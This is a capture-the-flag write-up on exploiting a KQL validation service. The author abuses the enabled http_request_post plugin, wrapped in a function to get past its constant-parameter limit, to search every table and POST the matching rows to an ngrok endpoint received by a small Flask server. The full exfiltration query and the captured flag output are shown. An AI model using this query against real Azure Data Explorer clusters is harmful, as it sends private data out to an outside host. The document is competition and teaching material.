 # KQL Validation Service
Writeup by slayyy @ Dragonslayerz

__Lesson learned:__ Teamwork makes the dream work


### Introduction
The challenge presents a service that supposedly validates input KQL queries by executing them towards a ADX cluster, as per the description. The task was to find a vulnerability in this service, to find a flag within. The issue being, that the only output from the service was whether or not the query input vas "valid" or not (i.e. executed without throwing any errors). 

The web service presented three main pages
- `Home`, a page with some information about the service
- `Validate KQL`, a page with an input field and a button for validating said input
- `Cluster Policies`, a page presenting the option of fetching the policies related to the cluster

### Solution steps
Starting out by running some basic queries in parallel in my own ADX cluster and the validation service, and validating that it indeed seems to validate the needful. The essential question kept looming - how to get data out.

First idea was perhaps some command injection was possible, i.e. somehow do something with the "Cluster Policies" page function. Investigation into the source code showed that the button calls an API at `/api/cluster_policies` and does some presentation magic wrt. the visual display of the fetched policies. While one further approach could have been looking for other API endpoints, I discarded my idea about command injection.

The next approach was to actually look at the data presented on the mentioned page - why was it here? Never being aware of such policies, a quick glance was awarded to them.

After some reading, a `CTRL+F` of "http" gave 14 results on the page - 12 of them in the `.show cluster policy caching` with some URL regexes for some reason - but also _two_ in `.show plugins` results.

```json
...
  {
    "Description": "Version=2",
    "IsEnabled": true,
    "PluginName": "http_request"
  },
  {
    "Description": "Version=2",
    "IsEnabled": true,
    "PluginName": "http_request_post"
  },
...
```

Not being familiar with the plugins themselves, official docs indicated that they might be useful.

The next steps was preparing the data reception.

#### Receving data
**Setting Up ngrok Reverse Proxy**
Finally I had an excuse to check out ngrok in an effort to receive the data. For reasons unknown, we chose the 
`ngrok http 443`

**Creating the Flask Service**
    - We developed a simple Python Flask service to handle incoming requests and process the data.
    - Below is a basic example of the Flask service:

```python
from flask import Flask, request, jsonify

app = Flask(__name__)

@app.route('/', methods=['POST'])
def receive_post():
    try:
        data = request.data  # Get the raw data
        if not data:
            raise ValueError("No data received")
        print(f"Received POST data: {data.decode('utf-8')}")  # Decode bytes to string for printing
        return "POST request received", 200
    except Exception as e:
        print(f"Error: {e}")
        return jsonify({"error": str(e)}), 400

@app.route('/', methods=['GET'], defaults={'path': ''})
@app.route('/<path:path>')
def catch_all(path):
    return f'You want to access the path: /{path}'

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=443)
```

#### Exploiting the Vulnerability
While the plugins discovered were useful for accessing _statically_ defined URLs, and posting _statically_ defined data, exposing the result of an executed query was troublesome.


Luckily someone has written about it at some point, and thanks to a [Cameron Fuller at quisitive](https://quisitive.com/overcoming-the-expression-must-be-a-constant-limit-in-kusto/) a bypass of the "static" requirements to the different parameters was achieved - the solution is basically to wrap the plugin into a function, and define the data as a variable, and then pass it through the function into the plugin. Easy as pie.

### Payload

Initially, with a imprecise "payload" (or query, if you will) the response was the red herring result, as seen below.

Response: `127.0.0.1 - - [02/Nov/2024 16:16:28] "POST / HTTP/1.1" 200 -
Received POST data: `
```json
{
    "$table": "Devices",
    "DeviceID": "0b86cce0-bae4-48d5-a76d-e382b1bd02b6",
    "DeviceName": "EPT{b9f6",
    "DeviceType": "Smartphone",
    "LastSeen": "2024-04-10T23:48:17.7197370Z",
    "StartTime": null,
    "EndTime": null,
    "EpisodeId": null,
    "EventId": null,
    "State": "",
    "EventType": "",
    "InjuriesDirect": null,
    "InjuriesIndirect": null,
    "DeathsDirect": null,
    "DeathsIndirect": null,
    "DamageProperty": null,
    "DamageCrops": null,
    "Source": "",
    "BeginLocation": "",
    "EndLocation": "",
    "BeginLat": null,
    "BeginLon": null,
    "EndLat": null,
    "EndLon": null,
    "EpisodeNarrative": "",
    "EventNarrative": "",
    "StormSummary": null
}
```

However, after a great input from a teammate who was looking at the KQL game challenge, suggested the following query:

`where * matches regex @"^EPT{.*}$"`

It is a regex pattern that matches any string starting with `EPT{`, followed by any sequence of characters, and ends with a closing brace `}`. 


This led to the following successful "payload" - go teamwork!

```sql
let content =  search * | where * matches regex @"^EPT{.*}$"  | project pack_all = tostring(pack_all());
let uri = "https://<ngrok-server>.ngrok-free.app";
let headers = dynamic({});
let options = dynamic({});
let content2 = tostring(toscalar(content));
let request = (uri:string, headers:dynamic, options:dynamic, json:string) {
    evaluate http_request_post(uri, request_headers=headers,options, json)
};
request(uri, headers, options, content2)
```


This indeed gave the flag in the `DeviceName` column in the response! 

```json
{
    "$table": "Devices",
    "DeviceID": "aee9635f-d3b4-4c37-89fb-293820ffb03b",
    "DeviceName": "EPT{6X+Jd$>this_is_A_v3ry_long_fl4g_d0nt_try_to_brute_force_itt=B+----J-P.=pEv'GvAJ$aFdyRia.<i<N/7-Ymes3dU2Kjl'MrYM7-FHNDFf'UNZ'hq1n1Mveb'RCyEX'MlJ2kK,b,:Zn'>ABjwgv_7'j7''FY*I'JI,z@K1dvPLE@>R9!6x3O4hYG_5!/HnD/gt_g::S9'IgD'5@vbBfAcUOrv'u<4O=$,'IE./=DY$RX}",
    "DeviceType": "Smartphone",
    "LastSeen": "2024-09-23T15:55:09.8931430Z",
    "StartTime": null,
    "EndTime": null,
    "EpisodeId": null,
    "EventId": null,
    "State": "",
    "EventType": "",
    "InjuriesDirect": null,
    "InjuriesIndirect": null,
    "DeathsDirect": null,
    "DeathsIndirect": null,
    "DamageProperty": null,
    "DamageCrops": null,
    "Source": "",
    "BeginLocation": "",
    "EndLocation": "",
    "BeginLat": null,
    "BeginLon": null,
    "EndLat": null,
    "EndLon": null,
    "EpisodeNarrative": "",
    "EventNarrative": "",
    "StormSummary": null
}
```

## Conclusion
By leveraging the cluster settings, setting up an ngrok reverse proxy, and creating a simple Flask service, we successfully identified and exploited a vulnerability in the KQL validation service.


## Tools Used
- ngrok
- Python Flask
- Google